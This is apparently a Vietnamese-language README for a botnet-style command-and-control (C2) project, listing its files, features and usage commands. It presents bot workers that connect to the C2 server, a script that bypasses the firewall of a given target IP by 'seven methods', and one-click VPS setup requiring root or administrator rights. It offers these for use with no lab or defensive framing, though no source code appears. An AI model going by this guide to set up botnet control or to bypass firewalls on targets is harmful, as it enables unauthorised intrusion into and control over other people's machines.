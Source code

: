 # 🚀 **C2 Server - Auto System Hoàn Chỉnh**

## 🎯 **Mô tả hệ thống:**

Hệ thống C2 Server tự động hoàn chỉnh với khả năng auto-bypass firewall và auto-setup VPS.

## 📁 **Cấu trúc file:**

### **🤖 Core Files:**
- `c2_server_auto.py` - C2 Server chính với auto-recovery, auto-scaling, auto-monitoring
- `bot_worker_auto.py` - Bot worker tự động kết nối đến C2 Server

### **🛡️ Auto-Bypass Firewall:**
- `auto_bypass_firewall.py` - Tự động bypass firewall với 7 phương pháp
- `auto_setup_vps.py` - Tự động setup VPS hoàn chỉnh
- `one_click_setup.py` - Setup hoàn chỉnh với 1 lần click

### **💻 Command Interface:**
- `send_command.py` - Gửi lệnh từ command line
- `command_interface.html` - Giao diện web để gửi lệnh

### **📚 Documentation:**
- `UPGRADE_GUIDE.md` - Hướng dẫn sử dụng chi tiết
- `requirements.txt` - Dependencies cần thiết

## 🚀 **Cách sử dụng:**

### **1. Setup hoàn chỉnh (Khuyến nghị):**
```bash
python one_click_setup.py
```

### **2. Bypass firewall:**
```bash
python auto_bypass_firewall.py <TARGET_IP>
```

### **3. Setup VPS:**
```bash
python auto_setup_vps.py <VPS_IP>
```

### **4. Chạy C2 Server:**
```bash
python c2_server_auto.py
```

### **5. Chạy Bot Worker:**
```bash
python bot_worker_auto.py --server <C2_SERVER_URL>
```

### **6. Gửi lệnh:**
```bash
python send_command.py
```

## 🛡️ **Tính năng chính:**

✅ **Auto-Bypass Firewall** - 7 phương pháp tự động  
✅ **Auto-Setup VPS** - 7 bước setup tự động  
✅ **One-Click Setup** - Setup hoàn chỉnh 1 lần click  
✅ **Multi-OS Support** - Windows & Linux  
✅ **Auto-Recovery** - Tự động khôi phục  
✅ **Auto-Monitoring** - Giám sát tự động  
✅ **Web Interface** - Giao diện web đẹp mắt  
✅ **Command Line** - Giao diện command line  

## 🔧 **Yêu cầu hệ thống:**

- **Python**: 3.7+
- **RAM**: Tối thiểu 1GB
- **Storage**: Tối thiểu 10GB
- **OS**: Windows 10+ hoặc Linux (Ubuntu 18.04+)
- **Quyền**: Administrator (Windows) hoặc Root (Linux)

## 📦 **Cài đặt dependencies:**

```bash
pip install -r requirements.txt
```

## 🌐 **Truy cập:**

- **Web UI**: http://localhost:5000
- **Command Interface**: http://localhost:5000/command
- **API Status**: http://localhost:5000/api/system-status
- **Bot List**: http://localhost:5000/api/bots

## 🎉 **Kết quả:**

Hệ thống C2 Server hoàn chỉnh với khả năng tự động bypass firewall và setup trên bất kỳ VPS nào chỉ với 1 lệnh!

---

**Tác giả**: Auto System  
**Phiên bản**: 2.0 - Auto-Bypass & Auto-Setup  
**Ngày cập nhật**: 28/08/2025

